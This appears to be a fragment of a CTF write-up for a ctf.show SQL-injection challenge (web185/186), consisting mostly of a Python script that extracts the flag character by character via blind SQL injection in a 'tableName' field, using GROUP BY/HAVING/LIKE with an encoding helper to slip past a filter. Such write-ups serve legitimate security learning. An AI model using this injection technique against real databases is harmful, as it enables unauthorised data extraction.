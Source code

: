```
url = "http://33db22fa-e601-49f4-a311-7ba9a21a915c.challenge.ctf.show/select-waf.php"
letter = "0123456789abcdefghijklmnopqrstuvwxyz-{}"
flag = "ctfshow{"
for i in range(100):
    for j in letter:
        data = {
            'tableName': 'ctfshow_user group by pass having pass like concat({})'.format(createstrNum(flag + j + "%"))
        }
        res = requests.post(url=url, data=data).text
        # print(res)
        if "$user_count = 1;" in res:
            flag += j
            print(flag)
            break
        if j == "}":
            sys.exit()

```

![](.\SQL注入\web185-186\web185.png)
